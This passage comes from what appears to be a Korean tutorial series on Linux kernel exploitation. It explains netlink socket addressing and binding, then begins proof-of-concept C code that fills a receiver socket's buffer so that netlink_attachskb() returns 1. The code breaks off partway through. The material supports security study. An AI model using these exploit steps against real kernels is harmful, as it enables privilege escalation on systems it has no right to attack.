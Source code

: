 다른 어떤 소켓 통신과 마찬가지로 두 소켓은 "주소"를 이용하여 통신할 수 있다. netlink 소켓에서는 "struct sockaadr\_nl" 타입을 사용한다(매뉴얼 참고):

```c
struct sockaddr_nl {
   sa_family_t     nl_family;  /* AF_NETLINK */
   unsigned short  nl_pad;     /* Zero. */
   pid_t           nl_pid;     /* Port ID. */
   __u32           nl_groups;  /* Multicast groups mask. */
};
```

"broadcast group"에 속하고 싶지 않으므로, *nl\_groups*가 0이어야 한다. 여기서 중요한 유일한 필드는 "nl\_pid"이다.

기본적으로 **netlink\_bind()**는 두 경로로 갈 수 있다:

1. nl\_pid가 0이 아닌 경우: **netlink\_insert()**를 호출
2. nl\_pid가 0인 경우: **netlink\_autobind()**를 호출하여 결국 netlink\_insert() 호출

이미 사용된 *pid*를 통해 netlink\_insert()를 호출하면 "-EADDRINUSE" 에러가 발생하며 실패한다. 그렇지 않으면 *nl\_pid*와 netlink sock 사이의 매핑이 생긴다. 즉 netlink\_getsockbypid()를 통해 netlink\_sock을 얻을 수 있다. 게다가, **netlink\_insert()는 sock의 레퍼런스 카운터를 1 증가시킨다**. 최종 proof-of-concept 코드를 위해 기억해두자.

**노트**: netlink가 "pid:netlink\_sock" 매핑을 저장하는 방법은 [part 4](https://chamalane.herokuapp.com/posts/5d50360ac040080004228198)에서 더 깊게 다룰 것이다.

netlink\_autobind()를 호출하는 것이 더 자연스러워 보이지만 우린 유저 영역에서 bind()가 성공할 때까지 pid 값을 브루트포싱하는 *시뮬레이션*을 한다. 그렇게 하면 getsockname()을 호출하지 않고도 목적지 nl\_pid 값을 가질 수 있고, (아마도) 디버깅이 더 쉬워진다(확실하진 않다🙄).

## Putting it All Together

이 모든 경로를 지나오기까지 오래 걸렸다. 이제 익스플로잇을 구현하고 우리의 첫 목표: **netlink\_attachskb()가 1을 반환하게 만들기**에 도달할 준비가 되었다!

전략은 다음과 같다:

1. NETLINK\_USERSOCK 프로토콜을 사용하는 AF\_NETLINK 소켓을 둘 생성한다.
2. 타겟(수신자) 소켓을 bind한다(= receiver buffer가 가득 차있어야 함).
3. [선택] 타겟 소켓의 receive buffer를 줄여본다 (sendmsg()를 덜 호출해도 됨).
4. 송신자 소켓에서 타겟 소켓에 *sendmsg()*를 계속 보내서 EAGAIN을 반환하게 한다.
5. 송신자 소켓을 끈다(close). (더이상 필요 없음)

모든 것이 잘 돌아가는지 검증하기 위해 다음 *독립된*(standalone) 코드를 돌려볼 수 있다:

```c
static int prepare_blocking_socket(void)
{
  int send_fd;
  int recv_fd;
  char buf[1024*10]; // should be less than (sk->sk_sndbuf - 32), you can use getsockopt()
  int new_size = 0; // this will be reset to SOCK_MIN_RCVBUF

  struct sockaddr_nl addr = {
    .nl_family = AF_NETLINK,
    .nl_pad = 0,
    .nl_pid = 118, // must different than zero
    .nl_groups = 0 // no groups
  };

  struct iovec iov = {
    .iov_base = buf,
    .iov_len = sizeof(buf)
  };

  struct msghdr mhdr = {
    .msg_name = &addr,
    .msg_namelen = sizeof(addr),
    .msg_iov = &iov,
    .msg_iovlen = 1,
    .msg_control = NULL,
```